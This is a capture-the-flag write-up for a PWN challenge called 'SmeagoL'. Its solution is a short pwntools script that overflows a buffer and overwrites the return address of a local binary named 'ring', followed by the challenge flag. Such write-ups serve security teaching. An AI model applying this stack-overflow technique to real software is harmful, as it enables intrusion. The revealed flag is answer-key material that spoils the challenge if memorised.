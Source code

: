 # SmeagoL [480 pts]

**Category:** PWN

**Solves:** 10

## Description
>*flag format: iguctf{placeholder}*

>**Author: alperaktasm**

## Solution

```py
from pwn import *
padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x080497a5)
payload = padding + eip
r = process("ring")
print(r.recvuntil("Söyle bakalım şu anda cebimde ne var? : ").decode('utf-8'))
r.sendline(payload)
for i in range(13):
        print(r.recvline().decode('utf-8'))
```

### Flag
iguctf{MY_PRECIOUS!!!}
